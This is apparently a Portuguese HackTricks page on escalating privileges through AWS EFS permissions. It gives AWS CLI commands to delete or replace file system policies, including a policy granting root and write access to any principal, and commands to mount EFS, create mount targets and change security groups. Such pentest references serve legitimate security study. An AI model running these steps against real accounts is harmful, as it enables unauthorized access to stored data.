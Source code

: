 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Mais **informações sobre EFS** em:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

Lembre-se de que, para montar um EFS, você precisa estar em uma sub-rede onde o EFS está exposto e ter acesso a ele (grupos de segurança). Se isso estiver acontecendo, por padrão, você sempre poderá montá-lo; no entanto, se estiver protegido por políticas IAM, você precisará das permissões extras mencionadas aqui para acessá-lo.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Com qualquer uma dessas permissões, um atacante pode **alterar a política do sistema de arquivos** para **dar acesso** a ele ou apenas **deletá-lo** para que o **acesso padrão** seja concedido.

Para deletar a política:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Para mudar isso:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Com essa permissão, um atacante poderá **montar o EFS**. Se a permissão de escrita não for concedida por padrão a todos que podem montar o EFS, ele terá apenas **acesso de leitura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
As permissões extras `elasticfilesystem:ClientRootAccess` e `elasticfilesystem:ClientWrite` podem ser usadas para **escrever** dentro do sistema de arquivos após ele ser montado e para **acessar** esse sistema de arquivos **como root**.

**Impacto Potencial:** Privesc indireto ao localizar informações sensíveis no sistema de arquivos.

### `elasticfilesystem:CreateMountTarget`

Se um atacante estiver dentro de uma **sub-rede** onde **nenhum ponto de montagem** do EFS existe. Ele poderia simplesmente **criar um em sua sub-rede** com esse privilégio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indireto ao localizar informações sensíveis no sistema de arquivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Em um cenário onde um atacante descobre que o EFS tem um alvo de montagem em sua sub-rede, mas **nenhum grupo de segurança está permitindo o tráfego**, ele poderia **simplesmente mudar isso modificando os grupos de segurança selecionados**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impacto Potencial:** privesc indireto ao localizar informações sensíveis no sistema de arquivos.

{{#include ../../../banners/hacktricks-training.md}}
